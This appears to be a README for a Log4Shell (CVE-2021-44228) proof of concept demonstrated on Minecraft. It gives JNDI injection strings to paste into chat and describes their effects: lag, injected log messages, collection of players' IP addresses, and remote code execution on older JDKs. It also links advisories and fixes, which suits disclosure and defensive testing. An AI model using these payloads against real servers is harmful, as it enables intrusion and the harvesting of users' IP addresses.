 # Log4J-RCE-Proof-Of-Concept (CVE-2021-44228)

This is a proof of concept of the log4j rce.

Here are some links for the CVE-2021-44228:
- https://www.lunasec.io/docs/blog/log4j-zero-day/
- https://github.com/advisories/GHSA-jfh8-c2jp-5v3q
- https://github.com/apache/logging-log4j2/pull/608

This bug affects nearly all log4j2 and maybe log4j1 versions. The recommended version to use is 2.15.0 which fixes the exploit.

## Demonstration with minecraft (which uses log4j2)

- Fixes for minecraft are listed here by slicedlime: https://twitter.com/slicedlime/status/1469150993527017483

### Lag or sending serialized data 

- Paste ``${jndi:ldap://127.0.0.1/e}`` in the chat. If there is an open socket on port ``389`` logj4 tries to connect and blocks further communiction until a timeout occurs.
- When using this proof of concept exploit, the log in the console will log ``THIS IS SEND TO THE LOG!!! LOG4J EXPLOIT!`` which is a serialized string object from the ldap server.

![image](https://user-images.githubusercontent.com/7681220/145529175-b6f88cf0-67d0-450b-a834-87942202d594.png)

- Additionally the malicious ldap server receives every ip address where the message is logged. This means that ip adresses of players on a server can be collected which this exploit.

### RCE

- Paste ``${jndi:ldap://127.0.0.1/exe}`` in the chat. If ``-Dcom.sun.jndi.ldap.object.trustURLCodebase=true`` is set to true the remote code execution will happen.

![image](https://user-images.githubusercontent.com/7681220/145529797-a3952c3e-c81e-4e91-b383-490688736f9c.png)

- Fortunately modern jdks disable remote class loading by default. (https://www.oracle.com/java/technologies/javase/8u121-relnotes.html)
- Old versions may still allow this!!


 
